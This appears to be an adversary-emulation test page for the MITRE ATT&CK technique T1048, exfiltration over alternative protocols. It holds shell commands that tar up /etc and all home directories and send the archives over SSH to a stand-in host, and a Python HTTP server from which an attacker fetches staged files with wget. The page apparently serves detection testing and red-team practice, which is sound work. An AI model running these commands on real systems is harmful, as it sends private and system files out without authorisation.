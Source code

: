 ﻿# Exfiltration Over Alternative Protocol

# MITRE ATT&CK Technique:
[T1048](https://attack.mitre.org/wiki/Technique/T1048)

# SSH

## Remote to Local:

    ssh target.example.com "(cd /etc && tar -zcvf - *)" > ./etc.tar.gz

### Local to Remote:

    tar czpf - /home/* | openssl des3 -salt -pass pass:1234 | ssh foo@example.com 'cat > /home.tar.gz.enc'

# HTTP

## A firewall rule (iptables or firewalld) will be needed to allow exfiltration on port 1337.

## Victim System Configuration:

    mkdir /tmp/victim-staging-area
    echo "this file will be exfiltrated" > /tmp/victim-staging-area/victim-file.txt

##  Using Python to establish a one-line HTTP server on victim system:

    cd /tmp/victim-staging-area
    python -m SimpleHTTPServer 1337

##  To retrieve the data from an adversary system:

    wget http://VICTIM_IP:1337/victim-file.txt
